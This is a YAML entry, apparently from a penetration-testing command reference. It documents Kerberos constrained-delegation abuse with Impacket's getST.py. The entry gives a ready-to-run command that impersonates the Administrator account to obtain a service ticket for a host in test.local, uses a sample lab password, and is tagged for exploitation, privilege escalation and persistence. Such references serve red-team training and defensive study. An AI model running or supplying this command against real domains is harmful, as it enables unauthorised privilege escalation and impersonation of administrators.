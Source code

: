 ```yaml
---
title: |
  Impersonate the Administrator account and request a Service Ticket for a service
description: |
  Impacket's getST.py will request a Service Ticket and save it as ccache. If the account has constrained delegation privileges, you can use the `-impersonate` flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account and request a Service Ticket on its behalf for the `www` service on host `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: test

  	Password: Welkom01!

  	Impersonated User: Administrator

command: |
  python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/test:Welkom01!
items:
  - Username
  - Password
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

